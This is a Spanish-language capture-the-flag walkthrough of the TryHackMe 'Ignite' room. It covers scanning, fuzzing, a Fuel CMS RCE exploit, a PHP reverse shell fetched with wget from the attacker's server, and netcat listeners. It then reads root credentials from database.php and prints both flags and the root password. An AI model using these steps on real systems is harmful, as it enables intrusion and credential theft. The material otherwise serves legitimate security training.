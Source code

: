 # Ignite 

https://tryhackme.com/room/ignite

## NMAP

Hacemos un escaneo con `nmap` para ver las versiones también.

```
nmap -sV 10.10.98.176
```

![Imagen](images/Pasted%20image%2020250128103258.png)

Sólo escanea los puertos más comunes por defecto así que usamos la opción `-p-` para probar con todos.

Para detectar el SO y la versión del mismo usamos `-O`:

```
sudo nmap -sV -O 10.10.98.176
```
No nos da resultados y es algo normal que eso suceda.

También podemos modificar los tiempos entre los paquetes para que sea más difícil detectarlos. El modo 5 es el más agresivo y el 1 es el más "paranoico". Entre 3 y 4 es lo más normal y está en t3 por defecto.

```
sudo nmap -sV -O -T4 10.10.98.176
```

![Imagen](images/Pasted%20image%2020250204105623.png)

## Fuzzing 

Accedemos a la página web y usamos `DirBuster` para hacer fuzzing a la URL mientras seguimos inspeccionando el contenido de la página.

![Imagen](images/Pasted%20image%2020250212170404.png)

Descubrimos un login:

![Imagen](images/Pasted%20image%2020250212170436.png)

El fuzzing nos da los mismos resultados:

![Imagen](images/Pasted%20image%2020250212170557.png)

## /fuel/

Accedemos pues a `/fuel` y entramos con el usuario y contraseñas indicados.

![Imagen](images/Pasted%20image%2020250212170659.png)

Accedimos a un panel de administración del sitio web.

![Imagen](images/Pasted%20image%2020250212170830.png)

En la pestaña de `assets` podemos subir un archivo.

![Imagen](images/Pasted%20image%2020250212172318.png)

Nos aprovecharemos de esto ahora mismo.

## Reverse Shell

Usaremos la siguiente reverse shell de PHP:

https://github.com/pentestmonkey/php-reverse-shell/blob/master/php-reverse-shell.php

La modificamos con la IP de la VPN de nuestro Kali y el puerto 4444:

![Imagen](images/Pasted%20image%2020250212172546.png)

La página sólo permite subir archivos .zip pero podemos hacer que se descompriman automáticamente al subirlos.



Ponemos en escucha el puerto 4444:

```
nc -lvnp 4444
```

## exploit-db

Buscamos la vulnerabilidad de "fuel CMS" y encontramos la de la versión 1.4.1 de Remote Code Execution.

![Imagen](images/Pasted%20image%2020250212172655.png)

Nos descargamos el exploit.

![Imagen](images/Pasted%20image%2020250212172715.png)

Lo ejecutamos con el siguiente comando y accedemos al sistema finalmente.

![Imagen](images/Pasted%20image%2020250212172759.png)

Aunque es una shell muy limitada actualmente, no nos permite hacer casi nada.

Buscamos pues una reverse shell de php.

![Imagen](images/Pasted%20image%2020250220172524.png)

Nos la descargamos y editamos unos parámetros. La IP es la de nuestro Kali en la VPN de Tryhackme, 10.8.3.33 y el puerto 5000.

![Imagen](images/Pasted%20image%2020250220172721.png)

Abrimos una consola de`netcat`en escucha para el puerto 5000.

```
nc -lvnp 5000 
```

![Imagen](images/Pasted%20image%2020250220172838.png)

También abrimos un servidor http con Python por el puerto 9000.

```
python3 -m http.server 9000
```

>IMPORTANTE: La reverse shell de php que vamos a utilizar tiene que estar en la misma carpeta desde la que abrimos el servidor de python.

![Imagen](images/Pasted%20image%2020250220173032.png)

Hacemos clic en "RAW" en la página de github de antes de la reverse shell de php y copiamos la URL. 

![Imagen](images/Pasted%20image%2020250220173141.png)

```
https://raw.githubusercontent.com/pentestmonkey/php-reverse-shell/refs/heads/master/php-reverse-shell.php
```

Nos descargamos en el servidor la reverse shell que editamos.

```
wget http://10.8.3.33:9000/shell.php
```

![Imagen](images/Pasted%20image%2020250220174600.png)

![Imagen](images/Pasted%20image%2020250220174600.png)

Accedemos a la URL del archivo que hemos subido de php. La página se quedará cargando cuando se haya establecido la conexión.
![Imagen](images/Pasted%20image%2020250220174734.png)

En el puerto que abrimos en escucha con `netcat`hemos establecido la conexión.

![Imagen](images/Pasted%20image%2020250220178034.png)

Obtenemos la primera **flag**:

![Imagen](images/Pasted%20image%2020250220178225.png)

```
6470e394cbf6dab6a91682cc8585059b
```

## Escalada de privilegios

Ahora vamos a hacer una escalada de privilegios. Nos dirigimos a la siguiente ruta donde está la base de datos.

```
cd /var/www/html/fuel/application/config
```

Y mostramos el fichero `database.php`. En él están las credenciales del usuario `root`.

![Imagen](images/Pasted%20image%2020250220170945.png)

Hacemos más interactiva la terminal con el siguiente comando de python:

```
python3 -c 'import pty; pty.spawn("/bin/bash")'
```

Accedemos ahora si al usuario `root`.

```
su root
```

Y la contraseña es `mememe`.

![Imagen](images/Pasted%20image%2020250220172137.png)

Finalmente, obtenemos la última flag que se encuentra en la carpeta `root`y en el fichero `root.txt`.

![Imagen](images/Pasted%20image%2020250220172314.png)

```
b9bbcb33e11b80be759c4e844862482d
```





























